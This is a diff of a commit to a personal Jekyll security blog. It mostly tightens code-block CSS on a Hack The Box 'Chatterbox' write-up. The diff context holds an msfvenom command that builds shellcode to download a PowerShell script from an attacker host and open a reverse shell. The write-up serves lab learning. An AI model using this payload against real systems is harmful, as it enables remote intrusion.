

Before and after one commit to t3lesph0re/t3lesph0re.github.io, a Jekyll site: the page built from _posts/2025-10-14-htb_chatterbox.md, in a window 1280 px wide. Shown: the part 587-2502 px from the top of the page at 81% size, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
reduce code block padding to minimal terminal style

````diff
--- a/_posts/2025-10-14-htb_chatterbox.md
+++ b/_posts/2025-10-14-htb_chatterbox.md
@@ -52,7 +52,7 @@
 
 We will create a payload with **msfvenom** and deliver it via the Exploit-DB Python script to exploit the AChat vulnerability. Successful exploitation will run **Invoke-PowerShellTcp.ps1** and attempt to establish a reverse shell.
 
-This is the **msfvenom** command to generate the shell code that we will use in the Python script:
+This is the **msfvenom** command to generate the shell code that we will use in the Python script (do not forget to add your Attacker IP / port):
 
 ```bash
 t3lesph0re@neptune:~$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell iex(new-object net.webclient).downloadstring('http://10.10.14.8/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 8082" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
--- a/assets/css/custom.css
+++ b/assets/css/custom.css
@@ -66,30 +66,31 @@
 .post-nav a{opacity:.9}
 .post-nav a:hover{opacity:1;text-decoration:underline}
 
-/* --- Clean, tight CLI blocks (no heavy padding) --- */
+/* --- Clean, compact CLI blocks --- */
 :root { color-scheme: light; }
 
 .highlighter-rouge,
 .highlight,
 .highlight pre,
 pre {
-  background: #f6f8fa !important;   /* subtle light gray */
+  background: #f6f8fa !important;
   color: #24292f !important;
   border: 1px solid #d0d7de;
-  border-radius: 6px;
+  border-radius: 4px;
+  margin: 0.5rem 0;
+  padding: 0;
   box-shadow: none !important;
-  margin: 0.75rem 0;
-  padding: 0;
 }
 
-/* main text area inside */
+/* inner code area */
 .highlight pre,
 pre {
-  font: 0.94rem/1.45 'JetBrains Mono','Fira Code',ui-monospace,Menlo,Consolas,monospace;
-  background: transparent !important;
-  border: 0 !important;
-  padding: 0.6rem 0.9rem;           /* reduced padding */
+  font: 0.9rem/1.4 'JetBrains Mono','Fira Code',ui-monospace,Menlo,Consolas,monospace;
+  background: none !important;
+  border: none !important;
+  padding: 0.4rem 0.75rem;  /* ✅ this is now the only padding */
   overflow-x: auto;
+  white-space: pre;
 }
 
 /* inline code */
@@ -99,7 +100,7 @@
   color: #24292f;
   border: 1px solid #e1e4e8;
   border-radius: 4px;
-  padding: 0.1rem 0.35rem;
+  padding: 0.1rem 0.25rem;
 }
 
 /* prevent double-styling */
@@ -111,13 +112,11 @@
   color: inherit !important;
 }
 
-/* optional small title bar */
-.code-header {
-  background: #f9f9fa;
-  border: 1px solid #d0d7de;
-  border-bottom: 0;
-  border-radius: 6px 6px 0 0;
-  padding: 4px 8px;
-  font: 0.8rem system-ui, -apple-system, Segoe UI, Roboto, sans-serif;
-  color: #555;
+/* optional: smaller text on mobile */
+@media (max-width: 480px) {
+  .highlight pre,
+  pre {
+    font-size: 0.85rem;
+    padding: 0.3rem 0.6rem;
+  }
 }
````
